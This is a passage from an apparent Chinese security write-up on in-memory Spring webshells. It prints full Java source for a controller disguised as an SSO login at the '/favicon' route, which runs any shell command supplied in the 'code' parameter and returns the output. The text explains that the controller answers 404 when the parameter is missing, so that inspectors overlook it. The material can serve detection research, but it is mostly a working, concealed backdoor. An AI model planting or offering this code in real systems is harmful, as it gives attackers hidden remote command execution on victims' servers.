 下面提供一个简单的用来执行命令回显的 Webshell 代码示例：

```java
package me.landgrey;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;

@Controller
public class SSOLogin {

    @RequestMapping(value = "/favicon")
    public void login(HttpServletRequest request, HttpServletResponse response){
        try {
            String arg0 = request.getParameter("code");
            PrintWriter writer = response.getWriter();
            if (arg0 != null) {
                String o = "";
                java.lang.ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new java.lang.ProcessBuilder(new String[]{"cmd.exe", "/c", arg0});
                }else{
                    p = new java.lang.ProcessBuilder(new String[]{"/bin/sh", "-c", arg0});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
                o = c.hasNext() ? c.next(): o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            }else{
                response.sendError(404);
            }
        }catch (Exception e){
        }
    }
}
```

代码比较简单，达到的效果是，当请求没有携带指定的参数(`code`)时，返回 404 错误，当没有经验的人员检查时，因为 Webshell 仅存在于内存中，直接访问又是 404 状态码，所以很可能会认为 Webshell 不存在或者没有异常了。



![](https://raw.githubusercontent.com/LandGrey/webshell-detect-bypass/master/docs/spring-inject-webshell/images/response-01.png)



![](https://raw.githubusercontent.com/LandGrey/webshell-detect-bypass/master/docs/spring-inject-webshell/images/response-02.png)
